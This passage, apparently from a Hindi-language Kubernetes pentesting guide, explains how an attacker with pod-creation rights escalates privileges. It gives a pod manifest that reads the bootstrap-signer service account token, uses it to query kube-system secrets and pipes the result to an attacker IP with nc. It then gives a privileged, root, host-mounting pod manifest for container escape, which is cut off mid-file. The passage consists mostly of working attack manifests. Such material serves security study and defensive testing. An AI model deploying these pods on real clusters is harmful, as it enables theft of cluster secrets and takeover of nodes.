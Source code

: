 एक हमलावर जिसके पास एक पोड बनाने की अनुमति है, वह पोड में एक विशेषाधिकार प्राप्त सेवा खाता संलग्न कर सकता है और सेवा खाते की पहचान चुराने के लिए टोकन चुरा सकता है। प्रभावी रूप से इसके लिए विशेषाधिकार बढ़ाना

`bootstrap-signer` सेवा खाते का टोकन चुराने और इसे हमलावर को भेजने वाले पोड का उदाहरण:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: alpine
namespace: kube-system
spec:
containers:
- name: alpine
image: alpine
command: ["/bin/sh"]
args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
serviceAccountName: bootstrap-signer
automountServiceAccountToken: true
hostNetwork: true
```
### Pod Create & Escape

निम्नलिखित सभी विशेषाधिकारों को दर्शाता है जो एक कंटेनर हो सकता है:

* **विशेषाधिकार प्राप्त पहुंच** (सुरक्षाओं को अक्षम करना और क्षमताओं को सेट करना)
* **hostIPC और hostPid नामस्थान को अक्षम करें** जो विशेषाधिकार बढ़ाने में मदद कर सकते हैं
* **hostNetwork** नामस्थान को अक्षम करें, जो नोड्स के क्लाउड विशेषाधिकार चुराने और नेटवर्क तक बेहतर पहुंच देने की अनुमति देता है
* **कंटेनर के अंदर होस्ट्स को माउंट करें**

{% code title="super_privs.yaml" %}
```yaml
apiVersion: v1
kind: Pod
metadata:
name: ubuntu
labels:
app: ubuntu
spec:
# Uncomment and specify a specific node you want to debug
# nodeName: <insert-node-name-here>
containers:
- image: ubuntu
command:
- "sleep"
- "3600" # adjust this as needed -- use only as long as you need
imagePullPolicy: IfNotPresent
name: ubuntu
securityContext:
allowPrivilegeEscalation: true
privileged: true
#capabilities:
#  add: ["NET_ADMIN", "SYS_ADMIN"] # add the capabilities you need https://man7.org/linux/man-pages/man7/capabilities.7.html
runAsUser: 0 # run as root (or any other user)
volumeMounts:
- mountPath: /host
name: host-volume
restartPolicy: Never # we want to be intentional about running this pod
hostIPC: true # Use the host's ipc namespace https://www.man7.org/linux/man-pages/man7/ipc_namespaces.7.html
```